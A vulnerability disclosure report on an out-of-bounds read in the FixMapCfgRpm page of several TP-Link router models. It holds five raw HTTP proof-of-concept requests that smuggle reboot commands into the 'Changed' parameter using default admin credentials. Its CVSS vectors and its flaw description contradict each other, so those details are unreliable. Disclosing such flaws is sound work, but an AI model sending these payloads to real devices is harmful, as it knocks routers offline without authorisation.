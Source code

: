 # TP-Link TL-WR940N/TL-WR841N/TL-WR740N wireless router /userRpm/FixMapCfgRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer read out-of-bounds vulnerability exists in TP-Link TL-WR940N V2/V4、TL-WR841N V8/V10 and TL-WR740N V1/V2 wireless router. Its /userRpm/FixMapCfgRpm component has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - TP-Link TL-WR940N V2/V4、TP-Link TL-WR841N V8/V10、TP-Link TL-WR740N V1/V2

## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link WR940N V4 is as follows:

```http
GET /IFQHAXBBGJZJOIIA/userRpm/FixMapCfgRpm.htm?Mac=1C-BF-C0-7A-E0-03&Ip=192.168.2.139&State=1&Changed||CMD=$"reboot";$CMD=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/IFQHAXBBGJZJOIIA/userRpm/FixMapCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR940N V2 is as follows:

```http
GET /DTLZRKGAQEMSCUNA/userRpm/FixMapCfgRpm.htm?Mac=00-1D-0F-11-22-33&Ip=192.168.0.2&State=1&;=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/FixMapCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR841N V8 is as follows:

```http
GET /userRpm/FixMapCfgRpm.htm?Mac=78-2B-46-90-5c-67&Ip=192.168.0.3&State=1&Changed|reboot=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/FixMapCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR841N V10 is as follows:

```http
GET /PTSGMLKAISLZRVGB/userRpm/FixMapCfgRpm.htm?Mac=1C-BF-C0-7A-E0-04&Ip=192.168.3.1&State=1&;CMD=$'reboot';$CMD=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/BMKHACLAYMEWMEQA/userRpm/FixMapCfgRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR740N is as follows:

```http
GET /userRpm/FixMapCfgRpm.htm?Mac=00-16-EA-AE-3C-40&Ip=192.168.0.3&State=1&Changed;reboot=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/FixMapCfgRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/FixMapCfgRpm component has a security vulnerability in processing the Changed GET key parameter. The Changed parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits this vulnerability to construct a payload of the Changed parameter, so that the carefully constructed parameter causes a buffer out-of-bounds read error, which may lead to the disclosure of memory-sensitive information and denial of service. Attackers can directly achieve the effect of denial of service by exploiting this vulnerability.

The firmware simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/before.png)

![](./imgs/web.png)

After sending the constructed PoC, the cache area read out of bounds and a BadVA error occurred, resulting in denial of service.

![](./imgs/after.png)

![](./imgs/after2.png)

![](./imgs/err.png)

## 5. The basis for judging as a 0-day vulnerability

Searching the FixMapCfgRpm keyword in the NVD database did not find any vulnerabilities; searching the firmware model + parameter Changed keyword in the NVD database did not find any vulnerabilities, so it is considered a 0-day vulnerability.